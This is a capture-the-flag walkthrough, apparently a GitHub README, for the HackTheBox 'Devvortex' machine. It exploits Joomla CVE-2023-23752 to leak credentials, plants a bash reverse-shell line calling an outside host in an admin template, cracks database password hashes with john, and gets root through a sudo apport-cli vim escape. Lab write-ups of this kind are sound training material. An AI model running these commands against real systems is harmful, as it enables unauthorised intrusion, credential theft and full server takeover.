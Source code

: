 ## HackTheBox Devvortex walkthrough ##<br>
<br>
Update hosts file, add devvortex IP:<br>
```vi /etc/hosts```<br>
<br>
Reconnaissance by network scan:<br>
```nmap -sV gives devvortex.htb```<br>
<br>
This shows a web service on port 80. The service is a CMS.<br>
<br>
Use gobuster to enumerate sub domains:<br>
```wget https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-20000.txt```<br>
<br>
```gobuster dns -d devvortex.htb -w $wordlists/dns/subdomains-top1million-20000.txt -t 20```<br>
<br>
Enumeration reveals dev.devvortex.htb.<br>
<br>
Add this URL to the hosts file.<br>
<br>
Access dev.devvortex.htb/readme.txt <br>
<br>
This is a joomla site.<br>
<br>
Joomla is vulnerable to Improper Access Check CVE-2023-23752 which exposes credentials<br>
<br>
```curl -v http://10.9.49.205/api/index.php/v1/config/application?public=true```<br>
<br>
Login to the Joomla admin area using CVE-2023-23752 output:<br>
username: <hidden><br>
password: <hidden><br>
<br>
Go to System -> System Information<br>
<br>
This gives some useful information.<br>
<br>
Go to System -> Templates -> Administrator Templates<br>
Open Template<br>
Open index.php<br>
<br>
Add reverse shell code:<br>
```exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.1/4444 0>&1'");```<br>
<br>
Start reverse shell:<br>
```nc -lvnp 4444```<br>
<br>
Save the template page. Reverse shell is established.<br>
<br>
Use the following commands to make the shell more accessible:<br>
```script /dev/null -c /bin/bash<br>
CTRL + Z<br>
stty raw -echo; fg<br>
Then press Enter twice, and then enter:<br>
export TERM=xterm```<br>
<br>
Since this is a Joomla CMS it has a database. In this case MySQL.<br>
<br>
Access the database and output the user table:<br>
```mysql -u lewis -p<br>
show databases;<br>
use joomla;<br>
select username,password from sd4fg_users;```<br>
<br>
This reveals a hashed password for user: <hidden> which can be cracked:
<br>
cp password to logan.txt<br>
```
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt<br>
john --format=bcrypt --wordlist=/usr/share/seclists/passwords/rockyou.txt logan.txt```<br>
<br>
Password is <hidden><br>
<br>
```ssh <hidden>:<hidden>```<br>
<br>
Get the user flag:<br>
```less user.txt```<br>
<br>
Time to get root. List the processes which can use sudo:<br>
<br>
```
sudo -l <br>
```<br>
One service is: /usr/bin/apport-cli<br>
<br>
Run the command:<br>
```/usr/bin/apport-cli```<br>
<br>
Reports are generated using vim. Execute code in VIM:<br>
<br>
Select: Create a report<br>
<br>
Use the following options:<br>
```1<br>
2<br>
!/bin/bash```<br>
<br>
This gives a root shell. Open root flag:<br>
```less /root/user.txt```<br>

